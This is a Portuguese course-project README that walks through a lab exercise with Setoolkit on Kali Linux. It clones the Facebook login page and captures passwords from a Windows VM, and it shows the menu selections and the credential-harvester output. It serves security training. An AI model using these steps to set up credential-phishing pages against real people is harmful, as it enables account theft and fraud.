

<h1>
    <a href="https://www.dio.me/">
     </a>
    <span>Desafio de projeto</span>
        
</h1>

Disponibilização do **README.md** com orientações de como criar um Phishing para capturar senhas de login do Facebook.<br> **Formação Cybersecurity Specialist** da  [Digital Innovation One](https://www.dio.me/).

**Pré-Requisitos:**

- **VM Windows**
- **VM Kali Linux**
- **Setoolkit:** Ferramenta para criar uma página falsa do Facebook para captura de senhas

## Configurando o Phishing no Kali Linux

1. Acessando com root: 
``` 
$ sudo su - root
```

2. Iniciando  a ferramenta **Setoolkit**: 
```
# setoolkit
```

3. Selecionando o tipo de ataque, neste caso a **opção 1**: 
```
...
            Visit: https://www.trustedsec.com
    It's easy to update using the PenTesters Framework! (PTF)
Visit https://github.com/trustedsec/ptf to update all your tools:

Select from the menu:

    1) Social-Engineering Attacks 
    2) Penetration Testing (Fast-Track)
    3) Third Party Modules
    4) Update the Social-Engineer Toolkit
    5) Update SET configuration
    6) Help, Credits, and About

    99) Exit the Social-Engineer Toolkit

set> 1
```

4. Selecionando o vetor de ataque no próximo menu, neste caso a **opção 2**: 
``` 
Select from the menu:

    1) Spear-Phishing Attack Vectors
    2) Website Attack Vectors
    3) Infectious Media Generator
    4) Create a Payload and Listener
    5) Mass Mailer Attack
    6) Arduino-Based Attack Vectors
    7) Wireless Access point Attack Vectors
    8) QRCode Generator  Attack Vectors
    9) Powershell  Attack Vectors
    10) Third Party Modules

    99) Return back to the main menu.

set> 2
```

5. Selecionando o método de ataque no próximo menu, neste caso a **opção 3**: 
```
...

    1) Java Applet Attack Method
    2) Metasploit Browser Exploit Method 
    3) Credential Harvester Attack Method
    4) Tabnabbing Attack Method
    5) Web Jacking Attack Method
    6) Muiti-Attack Web Method
    7) HTA Attack Method

    99) Return to Main menu

set:webattack> 3
```

6. Selecionando o método de ataque no próximo menu, neste caso a **opção 2**, em seguida o IP do servidor <enter>. Depois, informe a URL a ser clonada **www.facebook.com** : 
```
...
    1) Web Templates
    2) Site Cloner
    3) Custom Import

    99) Return to Webattack menu

set:webattack> 2
[-] Credential harvester will allow you to utilize the clone capabilities within SET
[-] to harvest credentials or parameters from a website as well as plac them into a report
...

set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.10.18]: <enter>
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone:http://www.facebook.com

[*] Cloning the website: https://login.facebook.com/login.php
[*] This could take a litle bit..

The best way to use this attack is if username and password from fields are available. 
Regardless, this captures all POST on a website

[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives bellow:
192.168.10.18 - - [08/10/2023 01:21:54] "GET / HTTP/1.1" 200 -
...
```

7. Pela **VM Windows** acesse o IP configurado, neste caso **192.168.10.18**

## Resutados:




## Referências:

[Capturando senhas com Social Engineering Toolkit e Ettercap](https://www.nanoshots.com.br/2015/09/capturando-senhas-com-social.html)

[Git Cassiano](https://github.com/cassiano-dio/cibersecurity-desafio-phishing)

[Git Trustedsec](https://github.com/trustedsec/ptf)

## Redes Socias

[](https://web.dio.me/users/marcelo_soares92)
[](https://gitlab.com/Mdsoare/)
[](https://github.com/Mdsoare/)
[](https://www.linkedin.com/in/marcelodsoares/) 

<table>
  <tr>
    <td>
      
    </td>
    <td align="left">
      <a href="https://github.com/Mdsoare">
        <span><b>Marcelo Soares</b></span>
      </a>
      <br>
      <span>Analista de Sistemas</span>
    </td>
  </tr>
</table>

##
<div align="center">Disponibilizado por <a href="https://github.com/Mdsoare">🕶 Marcelo Soares ®</a>.</div>